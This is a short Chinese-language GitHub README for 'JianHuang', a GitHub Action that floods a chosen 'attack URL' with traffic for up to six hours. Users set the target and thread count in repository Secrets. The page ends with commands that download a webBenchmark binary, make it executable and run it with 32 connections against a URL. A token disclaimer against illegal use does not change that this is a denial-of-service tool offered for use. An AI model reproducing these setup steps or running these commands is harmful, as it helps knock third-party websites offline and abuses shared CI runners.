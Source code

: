 # jianhuang
Github Action JianHuang
剑皇（刷流量） 最长可执行6HOUR
支持设定攻击URL和线程


# 使用方法
添加Secrets
#Name     Value
#URL      攻击URL
#XC       线程数

点击STAR开始执行

# 声明
请勿用于非法用途


wget https://github.com/maintell/webBenchmark/releases/download/0.1/webBenchmark_linux_x64

chmod +x webBenchmark_linux_x64

./webBenchmark_linux_x64 -c 32 -s http://
